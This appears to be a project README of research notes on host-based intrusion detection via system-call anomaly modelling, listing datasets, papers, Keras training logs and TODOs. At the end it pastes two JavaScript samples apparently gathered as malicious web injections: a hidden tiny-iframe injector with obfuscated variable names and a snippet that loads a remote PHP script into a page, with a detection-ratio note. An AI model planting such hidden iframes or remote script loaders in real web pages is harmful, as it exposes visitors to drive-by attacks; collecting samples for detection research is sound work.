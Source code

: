 # xxxx

System call anomaly detection using multi-HMMs

## Dataset:
UNM system call dataset 

https://www.cs.unm.edu/~immsec/data/synth-sm.html


ADFA-LD:
https://www.unsw.adfa.edu.au/australian-centre-for-cyber-security/cybersecurity/ADFA-IDS-Datasets/


LSTM-BASED SYSTEM-CALL LANGUAGE MODELING AND ROBUST ENSEMBLE METHOD FOR DESIGNING HOST-BASED INTRUSION DETECTION SYSTEMS
https://arxiv.org/pdf/1611.01726.pdf

Idea:
char-based system call 


https://github.com/karpathy/char-rnn
char NN 


padding the sequence

https://stackoverflow.com/questions/42002717/how-should-we-pad-text-sequence-in-keras-using-pad-sequences

https://github.com/fchollet/keras/issues/1641


loss functions;

https://keras.io/losses/#categorical_crossentropy


paper:
LSTM-Based System-Call Language Modeling and Robust Ensemble Method for Designing Host-Based Intrusion Detection Systems.

## Sample code:

http://machinelearningmastery.com/time-series-prediction-lstm-recurrent-neural-networks-python-keras/


https://github.com/aurotripathy/lstm-anomaly-detect


# Run

The train data size is that
X_Train (20298, 19, 341)
Y_Train (20298, 341)

19283/19283 [==============================] - 147s - loss: 0.0024 - val_loss: 0.0022


another losses

model.compile(loss="categorical_crossentropy", optimizer="rmsprop")

19283/19283 [==============================] - 153s - loss: 10.5728 - val_loss: 8.1006


model.compile(loss="categorical_crossentropy", optimizer="sgd")

19283/19283 [==============================] - 148s - loss: 9.8008 - val_loss: 13.7872

Done Training...

remove linear

19283/19283 [==============================] - 146s - loss: 2.7506 - val_loss: 2.2816

19283/19283 [==============================] - 146s - loss: 2.7523 - acc: 0.2363 - val_loss: 2.1657 - val_acc: 0.3626

https://github.com/fchollet/keras/blob/master/keras/backend/tensorflow_backend.py
line 2725

### TODO
1) dropout 0.5
2) visualization 
Slides:http://www.robots.ox.ac.uk/seminars/Extra/2015_07_06_AndrejKarpathy.pdf
3) state-transition probability  

===========
var idafhai = "iframe";
var ukqre = document.createElement(idafhai);
var utukl = "";
ukqre.style.width = "12px";
ukqre.style.height = "5px";
ukqre.style.border = "0px";
ukqre.frameBorder = "0";
ukqre.setAttribute("frameBorder", "0");
document.body.appendChild(ukqre);
utukl = "https://www.w3schools.com/";
ukqre.src = utukl;

==========
var jsFile = document.createElement("script");   ^M
jsFile.setAttribute("type", "text/javascript");   ^M
jsFile.setAttribute("src", "http://www.jiehun.cn/batch.panel.php?random="+Math.random());   ^M
document.getElementById('user_status_div').appendChild(jsFile);

^M -> new line signal for vim
jiehun.cn
Detection ratio: 3/66
